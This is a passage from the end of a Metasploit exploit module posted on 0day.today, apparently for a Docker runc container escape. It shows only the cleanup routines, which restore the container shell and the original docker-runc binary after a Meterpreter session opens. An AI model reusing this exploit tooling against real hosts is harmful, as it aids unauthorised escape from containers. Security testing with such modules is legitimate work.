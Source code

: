       def cleanup
        super

        # If something went wrong and the loop script didn't restore the original
        # shell in the docker container, make sure to restore it now.
        if @shell_bak && file_exist?(@shell_bak)
          copy_file(@shell_bak, @shell)
          chmod(@shell, 0o755)
          print_good('Container shell restored')
        end
      rescue Rex::Post::Meterpreter::RequestError => e
        fail_with(Failure::NoAccess, "Unable to restore #{@shell}: #{e}")
      ensure
        # Make sure we delete the backup file
        begin
          rm_f(@shell_bak) if @shell_bak
        rescue Rex::Post::Meterpreter::RequestError => e
          fail_with(Failure::NoAccess, "Unable to delete #{@shell_bak}: #{e}")
        end
      end

      def on_new_session(new_session)
        super
        @session = new_session
        runc_path = cmd_exec('which docker-runc')
        if runc_path == ''
          print_error(
            "'docker-runc' binary not found in $PATH. Cannot restore the original runc binary\n"\
            "This must be done manually with: 'cp #{@runc_backup_path} <path to docker-runc>'"
          )
          return
        end

        begin
          rm_f(runc_path)
        rescue Rex::Post::Meterpreter::RequestError => e
          print_error("Unable to delete #{runc_path}: #{e}")
          return
        end
        if copy_file(@runc_backup_path, runc_path)
          chmod(runc_path, 0o755)
          print_good('Original runc binary restored')
          begin
            rm_f(@runc_backup_path)
          rescue Rex::Post::Meterpreter::RequestError => e
            print_error("Unable to delete #{@runc_backup_path}: #{e}")
          end
        else
          print_error(
            "Unable to restore the original runc binary #{@runc_backup_path}\n"\
            "This must be done manually with: 'cp #{@runc_backup_path} runc_path'"
          )
        end
      end

    end

    #  0day.today [2021-07-03]  #